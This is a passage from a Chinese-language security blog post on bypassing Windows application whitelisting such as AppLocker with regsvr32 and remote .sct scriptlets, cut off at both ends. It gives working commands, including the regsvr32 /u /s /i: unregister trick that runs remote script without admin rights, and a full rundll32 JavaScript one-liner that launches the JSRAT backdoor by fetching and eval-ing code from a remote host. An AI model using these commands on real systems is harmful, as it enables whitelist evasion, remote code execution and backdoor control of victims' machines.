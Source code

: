 或者

```
regsvr32 /s https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct

```

如果转换思路，就会发现这种方式可以绕过应用程序白名单的过滤

0x05 进阶用法
=====

介绍到这里，你也许会认为，通过注册COM组件来绕过应用程序白名单的过滤得需要管理员权限，这会是一个鸡肋。

但是，**Casey**发现了更高级的方法：

```
不需要管理权限，同时也不需要写入注册表

```

也许回头看这个技巧很简单，但是

**能想到大家想不到的，这就不简单**

既然可以通过注册控件来绕过白名单过滤，那么通过卸载应该也可以，而且**卸载控件的操作不需要管理员权限，也不需要写入注册表**所以参数如下即可：

```
regsvr32 /u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll

```

如图，普通用户权限，开启Windows AppLocker，成功执行js代码，弹出计算器，前面介绍的JSRAT的应用方法也可以用这种方式执行

![enter image description here](http://drops.javaweb.org/uploads/images/376c6ad1aa81fb72f5b8557188b2a6a2f4cdc925.jpg)

0x06 补充
=====

补充另一个sct的应用方法 前不久更新了JSRAT的内容，添加了自动识别代理进行通信的功能，因此JSRAT的启动代码变得更长：

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");w=new%20ActiveXObject("WScript.Shell");try{v=w.RegRead("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Internet%20Settings\\ProxyServer");q=v.split("=")[1].split(";")[0];h.SetProxy(2,q);}catch(e){}h.Open("GET","http://192.168.174.131/connect",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}

```

这样不仅对实际使用带来不便，同时也影响了在快捷方式下的应用：

快捷方式支持的最大字符长度为260，而JSRAT的启动代码远超260，详细问题描述可见：

[https://github.com/3gstudent/Javascript-Backdoor/issues/3](https://github.com/3gstudent/Javascript-Backdoor/issues/3)

而通过sct来启动JSRAT恰恰可以解决这个问题，已将利用代码上传至github：

